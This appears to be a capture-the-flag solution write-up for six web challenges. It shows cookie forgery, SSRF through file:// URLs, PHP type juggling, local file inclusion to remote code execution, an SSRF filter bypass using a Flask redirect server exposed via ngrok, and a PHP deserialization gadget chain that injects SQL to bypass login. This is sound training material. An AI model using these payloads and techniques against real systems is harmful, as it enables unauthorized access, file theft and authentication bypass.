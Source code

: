 # Brief Solution

## web01
- Change cookies of `notadmin` to `admin`

## web02
### Installation 🧑🏻‍💻
1. `composer require mpdf/mpdf`

### Step 🍿
Basically, this is just SSRF vulnerability. You can read any file by using `file://` protocol. Sure you can use other method, feel free to study new thing.
1. put this URL on searchbar `file:///var/www/html/flag.php`

## web03
1. Base 64 decode 2 times the cookie value.
2. Change the type to admin and encode again.
3. Exploit the type strcmp loose comparison  by changing password to password[] and get the flag.
## web04
1. user click on About and redirected to page.php?show=about.php
2. show parameter is vulnerable to local file inclusion
3. gain rce via [PHP filters](https://github.com/synacktiv/php_filter_chain_generator)
## web05
### Installation 🧑🏻‍💻
1. `docker-compose up -d`

### Step 🍿
This vulnerability is just the same as web02, but with little bit of filter. This system "generally" check given url:
- is an ip address
- does not request localhost directly
- has valid public url
- and does not have DNS rebinding attack (donno if my filter method works)
So basically we can bypass the filter using URL redirect(302). The idea is we will give valid and public domain, but the domain will redirect it back to localhost 😯.

***There are 3 methods you can use***
1. You can use URL shorterner and points it to `http://127.0.0.1:8081/flag` (only certains works)
2. You can use public domain for localhost testing `http://localtest.me:8081/flag`
3. Or more painfull but it is good to understand how it works. 
  - Code below will redirect to `http://127.0.0.1:8081/flag`
```py
from flask import Flask,redirect

app = Flask(__name__)

@app.route("/")
def hello():
	return redirect("http://127.0.0.1:8081/flag")
```
  - spawn python server: `flask run --host=0.0.0.0 --port=1111`
  - spawn ngrok: `ngrok http 1111`
  - paste the url such as https://2025-2001-f40-933-46f6-ac06-5fb6-3208-9d5c.ap.ngrok.io/

## web06

The system passed user's input to `unserialize()` function without sanitization. User can control deserialize method to modify variable in classes to bypass login authentication. Thus, participant needs to create gadget chain( `ManageCookie{}`, `Auth{}`, `DBController{}` ) to control SQL statement in order to bypass auth.
### Step 🍿
1. run the code below.
```php
<?php

class DBController { }

class Auth {
    public $getTokenByUsernameQuery;
    protected $db_handle;

    function __construct() {
        $current_time = time();
        $cookie_expiration_time = $current_time + (30 * 24 * 60 * 60); // for 1 month
        $expiry_date = date("Y-m-d H:i:s", $cookie_expiration_time);

        $password_hash = password_hash("takKisahApaPun", PASSWORD_DEFAULT);
        $selector_hash = password_hash("tulatu", PASSWORD_DEFAULT);

        $this->getTokenByUsernameQuery = "SELECT ? as username, ? as is_expired, '{$password_hash}' as password_hash, '{$selector_hash}' as selector_hash, '{$expiry_date}' as expiry_date, 12 as id";
        $this->db_handle = new DBController();
    }
}

class ManageCookie {
    public $member_login = "ADMIN";
    public $random_password = "takKisahApaPun";
    public $random_selector = "tulatu";
    protected $auth;

    function __construct() {
        $this->auth = new Auth();
    }
}

$p = new ManageCookie();
$p = urlencode(base64_encode(serialize($p)));
echo $p;
```
2. Set "remember_user" cookie and refresh.
